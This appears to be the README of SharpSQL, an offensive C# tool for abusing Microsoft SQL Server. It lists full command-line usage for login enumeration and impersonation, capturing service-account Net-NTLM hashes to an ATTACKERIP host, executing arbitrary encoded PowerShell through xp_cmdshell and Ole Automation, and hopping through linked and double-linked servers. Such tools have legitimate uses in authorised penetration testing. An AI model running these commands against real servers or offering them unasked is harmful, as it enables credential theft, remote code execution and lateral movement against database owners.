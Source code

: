 # SharpSQL

----

SharpSQL is a C# tool for Microsoft SQL interaction and abuses. 

### Command Line Usage

    ███████ ██   ██  █████  ██████  ██████  ███████  ██████  ██
    ██      ██   ██ ██   ██ ██   ██ ██   ██ ██      ██    ██ ██
    ███████ ███████ ███████ ██████  ██████  ███████ ██    ██ ██
         ██ ██   ██ ██   ██ ██   ██ ██           ██ ██ ▄▄ ██ ██
    ███████ ██   ██ ██   ██ ██   ██ ██      ███████  ██████  ███████
                                                        ▀▀
    Written By: Jb05s | Version: 1.2.0 (02/23/2023)

    MSSQL Authenticated Server Enumeration and Impersonation:

        [1] Retrieve Login Information on the Connected SQL Server:
                SharpSQL.exe getlogin /db:DATABASE /server:SERVER [/impersonate] [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [2] Retrieve Information on SQL Login, Mapped User, and Available User Roles:
                SharpSQL.exe getdbuser /db:DATABASE /server:SERVER [/impersonate] [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [3] Retrieve the Net-NTLM Hash for the Service Account of the Connected SQL Server:
                SharpSQL.exe gethash /db:DATABASE /server:SERVER /ip:ATTACKERIP [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [4] Retrieve a List of Linked SQL Servers on the Connected SQL Server:
                SharpSQL.exe getlinked /db:DATABASE /server:SERVER [/sqlauth /user:SQLUSER /password:SQLPASSWORD]

    MSSQL Command Execution:
    
        [1] Base64 Encode an Arbitrary String for the '/command' Switch:
                SharpSQL.exe encode /command:STRING
        [2] Execute Arbitrary Encoded PowerShell Command via 'xp_cmdshell':
                SharpSQL.exe xp /db:DATABASE /server:SERVER /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [3] Execute Arbitrary Encoded PowerShell Command via 'Ole Automation Procedures':
                SharpSQL.exe ole /db:DATABASE /server:SERVER /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]

    MSSQL Linked Server Command Execution:

        [1] Action: Execute Procedures to Get Login Information on Linked SQL Server:
                SharpSQL.exe linkedlogin /db:DATABASE /server:SERVER /target:TARGET [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [2] Action: Execute Encoded PowerShell 'whoami' Command on Linked SQL Server via 'xp_cmdshell':
                SharpSQL.exe linkedxplogin /db:DATABASE /server:SERVER /target:TARGET [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [3] Retrieve the Net-NTLM Hash for the Service Account of the Linked SQL Server:
                SharpSQL.exe linkedhash /db:DATABASE /server:SERVER /target:TARGET /ip:ATTACKERIP [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [4] Execute Encoded PowerShell Command on Linked SQL Server via 'xp_cmdshell' with 'OPENQUERY':
                SharpSQL.exe linkedquery /db:DATABASE /server:SERVER /target:TARGET /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [5] Execute Encoded PowerShell Command on Linked SQL Server via 'xp_cmdshell':
                SharpSQL.exe linkedxp /db:DATABASE /server:SERVER /target:TARGET /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [6] Configure Linked SQL Server to Allow RPC connections:
                SharpSQL.exe linkedrpc /db:DATABASE /server:SERVER /target:TARGET [/sqlauth /user:SQLUSER /password:SQLPASSWORD]

    MSSQL Double Linked Server Command Execution:

        [1] Action: Execute Procedures to Get Login Information on Double-Linked SQL Server:
                SharpSQL.exe dbllinkedlogin /db:DATABASE /server:SERVER /intermediate:INTERMEDIATE /target:TARGET [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [2] Action: Execute Encoded PowerShell 'whoami' Command on Double-Linked SQL Server via 'xp_cmdshell':
                SharpSQL.exe dbllinkedxplogin /db:DATABASE /server:SERVER /intermediate:INTERMEDIATE /target:TARGET [/sqlauth /user:SQLUSER /password:SQLPASSWORD]
        [3] Execute Encoded PowerShell Command on a Double Linked SQL Server via 'xp_cmdshell':
                SharpSQL.exe dbllinkedxp /db:DATABASE /server:SERVER /intermediate:INTERMEDIATE /target:TARGET /command:COMMAND [/sqlauth /user:SQLUSER /password:SQLPASSWORD]

### getlogin
![](../images/getlogin.png)
![](../images/getlogin-sqlauth.png)

### getdbuser
![](../images/getdbuser-sqlauth.png)
![](../images/getdbuser.png)

### gethash
![](../images/gethash.png)

### getlinked
![](../images/getlinked.png)

### encode
![](../images/encode.png)

### xp
![](../images/xp.png)

### linkedlogin
![](../images/linkedlogin.png)

### linkedxplogin
![](../images/linkedxplogin.png)

### linkedhash
![](../images/linkedhash.png)

### linkedxp
![](../images/linkedxp.png)

### linkedrpc
![](../images/disabled-linkedrpc.png)
![](../images/enabled-linkedrpc.png)

### dbllinkedlogin
![](../images/dbllinkedlogin.png)

### dbllinkedxplogin
![](../images/dbllinkedxplogin.png)

### dbllinkedxp
![](../images/dbllinkedxp.png)
